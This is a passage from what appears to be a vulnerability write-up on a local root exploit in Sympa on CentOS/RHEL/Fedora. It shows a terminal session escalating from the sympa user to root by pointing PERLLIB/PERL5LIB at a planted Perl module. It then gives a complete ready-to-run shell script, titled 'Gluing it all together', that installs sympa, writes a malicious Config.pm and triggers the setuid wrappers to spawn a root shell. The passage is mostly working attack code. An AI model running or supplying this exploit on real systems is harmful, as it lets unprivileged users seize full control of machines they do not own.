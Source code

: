 Looks familiar, isn't it ? `SYMPA_NEWALIASES` point to `sympa_newaliases.pl`, which is also a *Perl* script!

Let's try the exact same POC, but with the privileges of the *sympa* user.

```
bash-5.0$ id
uid=977(sympa) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-5.0$ echo $PERLLIB
/tmp/poc
bash-5.0$ echo $PERL5LIB
/tmp/poc
bash-5.0$ /usr/libexec/sympa/sympa_newaliases-wrapper
[root@localhost poc]# id
uid=0(root) gid=975(sympa) groupes=975(sympa),10(wheel),1000(xyz) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@localhost poc]# whoami
root
```

## Gluing it all together

Here's a complete exploit that installs *sympa* using PackageKit, and then performs a privilege escalation to *root*.

```bash
#!/bin/sh
echo "[+] This exploit will give you a root shell on CentOS/RHEL/Fedora."
echo "[~] Installing sympa using PackageKit..."
pkcon refresh && pkcon install sympa -y
echo "[~] Exploit setup."
EXPLOITDIR=$(mktemp -d)
EXPLOITFILE="$EXPLOITDIR/Config.pm"
chmod 777 $EXPLOITDIR
cat > $EXPLOITFILE <<"EOL"
my $sympauser = "sympa";
my $pwuid = getpwuid( $< );
$elevate = $pwuid eq $sympauser;
$root = $pwuid eq "root";
if ($elevate == 1)
{
    print "[+] Running as service user, elevating privileges as root...\n";
    exec("/usr/libexec/sympa/sympa_newaliases-wrapper");
}
else {
    if ($root == 1)
    {
        print "[+] Running as root, popping shell.\n";
        exec("/bin/sh");
    }
    else
    {
        print "[!] Not running as root/sympa, exploit failed.\n";
    }
}
EOL
export PERLLIB=$EXPLOITDIR
export PERL5LIB=$EXPLOITDIR
export SYMPALIB=$EXPLOITDIR
echo "[+] Triggering exploit."
/usr/libexec/sympa/wwsympa-wrapper.fcgi
```
